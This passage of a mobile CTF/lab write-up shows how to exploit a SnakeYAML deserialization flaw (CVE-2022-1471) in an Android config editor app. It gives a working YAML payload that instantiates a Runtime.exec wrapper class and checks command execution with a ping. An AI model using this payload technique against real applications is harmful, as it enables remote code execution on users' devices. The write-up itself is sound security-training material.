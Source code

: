 Continue reading the class, you can notice that in the `loadYaml()` function, if we insert **special chars** like `>` or `|`, (then save file) and we filter **logcat** with
```bash
adb logcat | grep "Error"
```
We can see that we get the **Error loading YAML:** message. 

Notice that the **third-party** library is **SnakeYAML**.
Some days ago, I was realize an **Mobile CTF** from **PwnSec CTF 2024** that have an **SnakeYAML Deserialization**.
https://lautarovculic.com/pwnsec-ctf-2024-snake/

So we must handle a **deserialization attack**. For this, we need search in the **source code** about some function that **execute commands**.

After a simple search in **jadx**
![[configEditor3.png]]
We can found the **`LegacyCommandUtil`** **class**.
```java
public final class LegacyCommandUtil {  
    public LegacyCommandUtil(String command) {  
        Intrinsics.checkNotNullParameter(command, "command");  
        Runtime.getRuntime().exec(command);  
    }  
}
```

As well in my previous CTF challenge, we need **exploit `CVE-2022-1471`**
https://www.veracode.com/blog/research/resolving-cve-2022-1471-snakeyaml-20-release-0

So, the **payload** probably must look like:
```YML
exploit: !!com.mobilehackinglab.configeditor.LegacyCommandUtil ["command"]
```

For example, my **machine IP** is `192.168.18.44` and the **mobile device IP** `192.168.18.162`.
Let's create this `.yml` file:
```YML
exploit: !!com.mobilehackinglab.configeditor.LegacyCommandUtil ["ping 192.168.18.44"]
```
And, let's set up a `tcpdump` command for **listen the ICMP request**
```bash
sudo tcpdump -i wlan0 | grep ICMP
```

Then, save the file in an `.yml` file with the app. And also, **load the `.yml`** file.
![[configEditor4.png]]

Notice that we **receive the ICMP request** due to *ping command*.
You also can test many others commands -repeating the *same process*, you can notice **if the command work or not** filtering with **logcat**
```bash
adb logcat | grep "Error"
```

So, we finish the **lab**. But, you has been notice that the **app have `exported=true`** the **activity**, and also have the **intent**?
```XML
<activity
    android:name="com.mobilehackinglab.configeditor.MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
```